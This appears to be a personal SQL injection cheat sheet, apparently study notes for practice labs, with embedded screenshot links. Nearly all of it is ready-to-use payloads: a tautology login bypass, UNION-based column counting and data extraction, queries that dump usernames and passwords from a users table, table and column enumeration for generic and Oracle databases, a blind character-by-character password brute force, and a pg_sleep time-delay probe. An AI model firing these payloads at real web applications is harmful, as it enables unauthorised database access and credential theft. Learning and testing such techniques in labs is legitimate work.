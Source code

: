 `asd' or 1 = 1;#`  

`asd' UNION SELECT NULL,NULL,NULL;#` - to define column number (each null for a column, will error until null count will not match column count, it can be `---` instead of `#`)

`asd' UNION SELECT NULL, 'a', NULL;#` - to find string columns, if there is no error after this query then second('a') column returns string values

`asd' UNION SELECT * FROM table;#` - to retrieve info from other tables
`'UNION+SELECT+NULL,username||':'||password+FROM+users--` - select in single column

`UNION+SELECT+NULL,table_name+FROM+information_schema.tables--` - get tables
`UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name+=+'users_wmfnpt'--` - get columns

`'UNION+SELECT+NULL,table_name+FROM+all_tables--` - get tables from oracle db
`'UNION+SELECT+NULL,column_name+FROM+all_tab_columns+WHERE+table_name='USERS_LOSBQQ'--` - get columns from oracle db

`'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='b'--` - blind sql password bruteforce

`'||pg_sleep(10)--` - time delays
![[SQLCheatSheet1.png]]
![[SQLCheatSheet2.png]]
![[SQLCheatSheet3.png]]
![[SQLCheatSheet4.png]]
![[SQLCheatSheet5.png]]
![[SQLCheatSheet6.png]]
